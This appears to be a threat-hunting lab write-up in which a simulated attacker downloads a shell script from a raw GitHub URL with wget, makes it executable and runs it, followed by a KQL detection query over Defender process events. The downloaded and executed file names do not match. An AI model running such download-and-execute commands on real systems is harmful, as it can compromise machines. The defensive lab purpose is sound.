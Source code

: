 
# Threat Event (Malicious File Execution)

## Steps the "Bad Actor" took to Create Logs and IoCs:

1. Downloaded a malicious file to the machine. `wget https://raw.githubusercontent.com/Goodka7/Threat-Hunting-Malicious-Execution-/refs/heads/main/resources/MaliciousFile.sh`
2. Make the file executable. `chmod +x malicious_script.sh`
3. Execute the malicious file, simulating a compromise. `./malicious_script.sh`

## Tables Used to Detect IoCs:


| **Parameter Name**     | **Info** | **Description**                                                                                                             
|------------------------|----------|--------------------------------------------------------------------------------------------------------------------------|
| DeviceProcessEvents       | [Link](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceprocessevents-table)       | Used to detect the download, execution or modification of malicious files.  

## Related Queries:

```kql

DeviceProcessEvents
| where InitiatingProcessFileName in ("wget", "curl", "bash", "python", "perl")
| project Timestamp, DeviceName, InitiatingProcessAccountName, InitiatingProcessAccountDomain, InitiatingProcessFileName, ProcessCommandLine
| order by Timestamp desc
```

---

## Created By:
- **Author Name**: Ruben Clarke
- **Author Contact**: https://www.linkedin.com/in/itsrubenclarke/
- **Date**: April 26, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial draft                  | `April 26, 2025`  | `Ruben Clarke` 
